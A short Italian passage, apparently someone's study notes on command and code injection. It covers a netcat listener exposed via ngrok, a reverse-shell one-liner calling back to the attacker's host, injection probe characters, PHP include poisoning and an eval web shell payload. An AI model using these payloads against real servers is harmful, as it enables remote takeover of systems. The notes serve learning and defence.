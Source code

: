Un ulteriore metodo è quello di creare una reverse shell utilizzando netcat ed esporlo sulla mia macchina attraverso ngrok.
command: nc -lvp 1337
Così facendo io posso iniettare del codice nella macchina vulnerabile aprendo una connessione sh usando il seguente comando:
sh -i > & /dev/tcp/ip/port 0>&1

## Code injection

Nella code injection l'input non viene eseguito dalla shell ma dall'interprete del linguaggio utilizzato.
Per identificare queste vulnerabilità è importante sapere che linguaggio si sta utilizzando e provare ad inserire caratteri speciali.
I caratteri speciali generici sono i seguenti:

- "'"
- "
- `
- $
- \

## PHP code injection

- La funzione include ci consente di importare file arbitrari all'interno del nostro codice. Per eseguire del codice dannoso sul server remoto deve prima essere iniettato e poi importato. Un altro modo è fare il poisoning di un file già esistente.
- Iniettare il codice dalla url per poi eseguirlo attraverso comando eval es. <?php eval($_GET["c"])?>
  Consiglio prima di scrivere codice molto complesso fare delle prove con ls.

Per proteggersi le regole sono sempre le medesimi whitelist e blacklist.
